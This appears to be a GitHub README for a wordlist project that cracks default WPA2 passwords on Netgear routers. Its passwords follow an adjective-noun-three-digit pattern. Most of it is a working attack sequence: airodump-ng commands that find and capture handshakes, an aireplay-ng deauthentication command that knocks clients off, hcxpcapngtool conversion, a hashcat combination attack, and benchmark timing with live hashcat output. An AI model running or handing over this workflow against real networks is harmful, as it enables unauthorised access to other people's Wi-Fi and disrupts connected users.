 
# Netgear WPA Wordlist

A wordlist for targeting netgear router default WPA2 passwords

Many Netgear routers with the SSID of `NETGEARxx` (where xx is a two digit number) have a default Wi-Fi password with the following pattern:
```
[english adjective][english noun][3 digit number]
```

Security researchers have noted that this password scheme does not provide a sufficient amount of entropy to generate secure Wi-Fi passwords.

## Generating Wordlist

In order to optimize wordlist file sizes, we will use two wordlists to feed into hashcat's Combination attack mode.

The first wordlist will be a list of 5000 adjectives.
- top\_english\_adjs\_lower\_5000.txt

The second wordlist will be a list of all combinations of a list of 10000 nouns with all possible 3 digit numbers.
Not wanting to commit a 106M wordlist to this repo, we will use the included python script to generate the second wordlist file(`nouns-numbers.txt`):
```
generate-nouns-numbers.py
```

## Capturing WPA 4-way Handshake

discover netgear routers:
```
sudo airodump-ng --essid-regex NETGEAR[1-9]{2} wlan0
```

save 4-way handshake to pcap:
```
sudo airodump-ng --essid NETGEARXX -w netgearXX --output-format cap -c <CHANNEL> wlan0
```

deauth client connected to targeted access point to get a handshake
```
sudo aireplay-ng -0 1 -a <AP MAC> -c <CLIENT MAC> wlan0
```

convert pcap to hashcat format
```
hcxpcapngtool -o netgearXX.hc22000 -E wordlist netgearXX-01.cap
```

## Cracking WPA Password Hash

hashcat Combination attack mode
```
hashcat -m 22000 -a 1 netgearXX.hc22000 top_english_adjs_lower_5000.txt nouns-numbers.txt
```

## Math & Benchmarking

testing was performed with 1 Nvidia 2080TI GPU

- 2080TI hashing speed
    - 125100 WPA2 hashes per second (hashcat mode 22000)
- adjective wordlist size
    - top\_english\_adjs\_lower\_5000.txt: 5000
- noun + 3 digit number wordlist size
    - nouns-numbers.txt: 10000000
- total number of password guesses
    - 50000000000 = 5000 * 10000000
- time to crack all possible passwords
    - 50000000000 guesses / 125100 hashes/second = 399680 seconds
    - 111 hours
    - 4.6 days

```
Session..........: hashcat
Status...........: Running
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: hash.hc22000
Time.Started.....: Wed Sep 13 18:52:20 2023 (2 secs)
Time.Estimated...: Sun Sep 17 21:52:17 2023 (4 days, 2 hours)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (top-english-wordlists/top_english_adjs_lower_5000.txt), Left Side
Guess.Mod........: File (nouns-numbers.txt), Right Side
Speed.#1.........:   140.3 kH/s (0.32ms) @ Accel:64 Loops:128 Thr:32 Vec:1
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 158848/50000000000 (0.00%)
Rejected.........: 0/158848 (0.00%)
Restore.Point....: 0/5000 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:73-74 Iteration:3712-3840
Candidate.Engine.: Device Generator
Candidates.#1....: othertime073 -> paradoxicaltime073
Hardware.Mon.#1..: Temp: 47c Fan: 14% Util: 66% Core:1965MHz Mem:6800MHz Bus:16
```

## References

- https://github.com/3mrgnc3/RouterKeySpaceWordlists
- https://www.aircrack-ng.org/doku.php?id=cracking_wpa
- https://github.com/david47k/top-english-wordlists
- https://hashcat.net/forum/thread-7443-post-40036.html#pid40036
- https://hashcat.net/wiki/doku.php?id=example_hashes
